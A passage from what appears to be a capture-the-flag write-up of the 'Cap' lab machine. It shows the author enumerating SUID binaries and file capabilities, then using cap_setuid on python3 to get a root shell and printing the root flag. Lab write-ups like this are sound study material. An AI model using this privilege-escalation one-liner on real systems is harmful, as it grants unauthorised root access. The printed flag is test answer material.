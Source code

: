 ```console
/snap/core18/1997/bin/ping
/snap/core18/1997/bin/su
/snap/core18/1997/bin/umount
/snap/core18/1997/usr/bin/chfn
/snap/core18/1997/usr/bin/chsh
/snap/core18/1997/usr/bin/gpasswd
/snap/core18/1997/usr/bin/newgrp
/snap/core18/1997/usr/bin/passwd
/snap/core18/1997/usr/bin/sudo
/snap/core18/1997/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core18/1997/usr/lib/openssh/ssh-keysign
```
Got nothing interesting from the list. I started looking for any hints in the forum. There was one hint, 'the machine name is a big hint for all'. I searched for 'Cap linux' and got that cap means capabilities in Linux. Then I searched for 'capabilities linux priv esc'. From this article [Linux Privilege Escalation using Capabilities](https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/) I got the solution for my next steps.
```console
nathan@cap:~$ getcap -r / 2>/dev/null
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```
cap_setuid enabled for python3. Use this to get root shell.
```
nathan@cap:~$ python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
root@cap:~# pwd
/home/nathan
root@cap:~# cat /root/root.txt
97d73be5289b560b9ad38430ff79b0c3
root@cap:~#
```
